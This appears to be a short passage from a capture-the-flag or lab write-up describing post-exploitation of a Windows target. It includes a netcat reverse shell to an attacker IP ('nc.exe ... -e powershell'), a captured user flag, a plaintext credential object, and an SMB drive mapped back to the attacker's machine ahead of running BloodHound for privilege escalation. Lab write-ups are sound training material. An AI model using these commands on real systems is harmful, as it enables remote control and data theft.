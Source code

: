because my shell is extremely slow let's try to download nc and get a reverse shell 
![[Pasted image 20211008180120.png]]
Invoke-WebRequest -Uri <source> -OutFile destination
.\nc.exe 10.10.17.185 2239 -e powershell
![[Pasted image 20211008180055.png]]



#userflag b99ecdeac5de8eeaa16735a0a79e18b2



now let's try to upload bloodhound to the server and get the info from hound to our linux and run it and see if there is a way to do privesc 

first let's setup a smb server  [[SMTP 25]]


then 
we create a creds so we can connect to the smb sever on the windows machine 
$pass = convertto-securestring 'exde1234' -AsPlainText -Force
$cred = New-Object System.Management.Automation.PSCredential ('super1', $pass)
![[Pasted image 20211008193127.png]]
New-PSDrive -Name super -PSProvider FileSystem -Credential $cred -Root \\10.10.17.185\super